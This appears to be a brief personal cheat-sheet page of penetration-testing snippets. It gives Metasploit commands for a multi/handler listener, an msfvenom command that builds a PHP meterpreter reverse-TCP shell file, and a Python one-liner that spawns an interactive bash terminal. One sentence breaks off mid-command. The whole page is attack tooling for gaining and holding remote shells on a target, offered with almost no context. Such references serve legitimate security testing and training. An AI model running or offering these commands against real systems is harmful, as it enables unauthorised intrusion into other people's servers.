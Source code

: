 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit

#### Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 

#### Scripting Payloads

###### PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```


### Python

##### spawn a terminal 
```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
